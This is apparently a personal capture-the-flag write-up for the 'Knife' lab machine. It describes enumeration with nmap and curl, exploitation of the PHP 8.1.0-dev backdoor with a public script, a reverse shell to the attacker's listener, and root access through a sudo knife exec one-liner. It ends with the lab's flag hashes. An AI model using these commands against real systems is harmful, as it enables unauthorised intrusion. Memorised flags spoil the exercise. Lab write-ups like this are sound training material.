# Enumeration
## nmap scan
The TCP scan `nmap -sV -A 10.10.10.242`showed **PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 be:54:9c:a3:67:c3:15:c3:64:71:7f:6a:53:4a:4c:21 (RSA)
|   256 bf:8a:3f:d4:06:e9:2e:87:4e:c9:7e:ab:22:0e:c0:ee (ECDSA)
|_  256 1a:de:a1:cc:37:ce:53:bb:1b:fb:2b:0b:ad:b3:f6:84 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title:  Emergent Medical Idea
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel**
The interesting part here is the GET HEAD POST OPTIONS. 

Meanwhile the UDP scan showed _PORT      STATE  SERVICE
53/udp    closed domain
17207/udp closed unknown
26415/udp closed unknown
32773/udp closed sometimes-rpc10
60381/udp closed unknown_. Sometimes_rpc is

## curl
Using **[this](https://developer.mozilla.org/en-US/docs/Web/HTTP/Methods/OPTIONS)**, I found that there is a curl command which will help identify the allowed request methods.
`curl -X OPTIONS http://knife.htb -i`got the following results _HTTP/1.1 200 OK
Date: Sat, 16 Apr 2022 12:53:54 GMT
Server: Apache/2.4.41 (Ubuntu)
X-Powered-By: PHP/8.1.0-dev
Vary: Accept-Encoding
Transfer-Encoding: chunked
Content-Type: text/html; charset=UTF-8_. It shows the X-Powered-By which identifies the type of PHP being used. 
I proceeded to look up _PHP 8.1.0-dev exploit_. The results were an article about a backdoor exploit and some user-agent rce.

## dirb 
not much to be found _---- Scanning URL: http://knife.htb/ ----
+ http://knife.htb/index.php (CODE:200|SIZE:5815)                                                          
+ http://knife.htb/server-status (CODE:403|SIZE:274)  _
+ 


# Exploit
I found **[this exploit](https://github.com/flast101/php-8.1.0-dev-backdoor-rce)** which allowed for a backdoor or reverse shell to be established on the url.
proceeding to run the script `python3 backdoor_php_8.1.0-dev.py` I got access to a server:
- user = james
unfortunately, it appears I cannot change directories, so I try to run the reverse shell script instead.
`python3 revshell_php_8.1.0-dev.py http://knife.htb 10.10.14.14 4444` +. sat up a nc listener and we got a shell as james@knife, going to home directory we find the user flag.

# Privesc
In james' home directory, there is an interesting file 001 with the contents _ls /root_.
--> not sure what this can be used for yet.
I proceed to get linpeas and run the script.
First glance:
- Vulnerable to CVE-2021-4034
- polkitd - polkit.service running as root
- gpg keys?
- php-exec extensions **sites_enabled**
- log4j vuln __/opt/opscode/embedded/elasticsearch/lib/log4j-core-2.11.1.jar_
- ruby + github files
- _access.log_ + _error.log_
- _ssh-keysign_
- .sh files in path _/usr/bin/rescan-scsi-bus.sh + /usr/bin/gettext.sh_
- _/tmp/hsperfdata_opscode/952_
- 

The most interesting find = _User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife_. Looks like james can run the file _knife_ without password, and it is owned by root.
	--> looks like it has to do with rubygems
	--> _$stderr.puts "APPBUNDLER WARNING: unresolved deps are CRITICAL performance bug, this MUST be fixed"_
Also, the id_dsa keys and openSSH keys! (dead end)

## /usr/bin/knife
**[this GTFObins](https://gtfobins.github.io/gtfobins/knife/)** page shows how this file can be used to get a root shell if un with sude. Unfortunately james is not in the sudoers group, so how do we get around this?
Running the command `sudo /usr/bin/knife exec -E 'exec "/bin/sh"'` I managed to establish a root shell and from there got the root flag.

used `python3 -c 'import pty; pty.spawn("/bin/bash")'` to upgrade the shell to a more stable one.
# Flags
27905bb0169fd107a0d833733db5e476
51898767418735b7d54eef26a87735e0
# Thoughts
- xml:space vuln?

Relatively easy box - easy exploit and easy vulns to find. even easier had I known to check using curl.
# New Things 'Learnt'
- curl (ish)
- Zerodium
- `sudo -l`!!